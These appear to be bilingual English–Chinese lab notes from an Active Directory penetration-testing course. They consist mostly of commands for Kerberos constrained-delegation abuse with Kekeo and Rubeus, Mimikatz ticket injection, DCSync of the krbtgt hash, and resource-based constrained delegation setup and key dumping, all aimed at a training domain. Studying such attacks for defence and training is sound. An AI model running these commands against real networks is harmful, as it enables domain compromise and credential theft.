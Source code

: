 ## Abuse using Kekeo
```
kekeo# tgt::ask /user:devuser /domain:us.techcorp.local /password:Password@123!

kekeo# tgs::s4u /tgt:TGT_devuser@us.techcorp.local_krbtgt~us.techcorp.local@us.techcorp.local.kirbi /user:Administrator@us.techcorp.local /service:ldap/us-dc.us.techcorp.local

Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@us.techcorp.local@us.techcorp.local_ldap~us-dc.us.techcorp.local@us.techcorp.local.kirbi"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

Abuse using Rubeus
```
Rubeus.exe hash /password:Password@123! /user:devuser /domain:us.techcorp.local

Rubeus.exe s4u /user:devuser /rc4:539259E25A0361EC4A227DD9894719F6 /impersonateuser:administrator /msdsspn:ldap/us-dc.us.techcorp.local /domain:us.techcorp.local /ptt

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```



#  Resource-based Constrained Delegation（基于资源的约束委派）

• To abuse RBCD in the most effective form, we just need two privileges.（利用RBCD需要两个权限）

− One, control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain - ms-DS-MachineAccountQuota is 10 for all domain users)（对某个对象有设置spn的能力（就像管理员对计算机的权限，所有域成员默认有添加10台机器到域的权限））
− Two, Write permissions over the target service or object to configure msDS-AllowedToActOnBehalfOfOtherIdentity.（对目标服务或者对象有配置msDS-AllowedToActOnBehalfOfOtherIdentity的写权限）


所有用户都可以添加计算机到域，这个要求满足了

枚举是否对任何对象有写权限

```
Find-InterestingDomainAcl | ?{$_.identityreferencename -match 'mgmtadmin'}
```

使用ActiveDirectory配置RBCD,

```
$comps = 'student1$','student2$'
Set-ADComputer -Identity us-helpdesk -PrincipalsAllowedToDelegateToAccount $comps

```
• Now, let's get the privileges of studentx$ by extracting its AES keys:
```
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
